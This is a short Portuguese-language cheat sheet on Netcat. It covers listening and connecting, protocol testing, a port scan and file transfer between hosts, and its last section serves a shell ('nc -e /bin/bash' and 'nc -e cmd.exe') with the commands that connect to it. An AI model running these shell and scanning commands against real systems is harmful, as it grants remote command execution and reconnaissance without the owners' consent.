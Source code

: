 # Netcat (nc)

<https://nmap.org/ncat/>


### Executar o NC no modo listen em um Linux:
```
nc -l -p 1337
```

Executar em outro computador o NC para conexão:
```
nc 192.168.0.5 1337
```

Escreva em qualquer lado e obterá a informação na outra ponta.


### Pode-se simular / testar protocolos
```
nc -l -p 80 -vv
```
Abra o navegador e informe o IP do Servidor.

### Scan de Rede:
```
nc -v -n -z 192.168.10.15 10-1024
```

### Copiar arquivo:
```
nc -l -v -p 666 > test.txt
```
Do outro lado:
```
nc 192.168.0.5 666 < test.txt
```

### Executar um Shell reverso:
```
nc -l -p 8822 -e /bin/bash
nc -l -p 666 -e cmd.exe
```

Do outro lado:
```
nc 192.168.0.5 8822
nc 192.168.0.7 666
```
```
execute qualquer comando linux.
execute qualquer comando windows.
```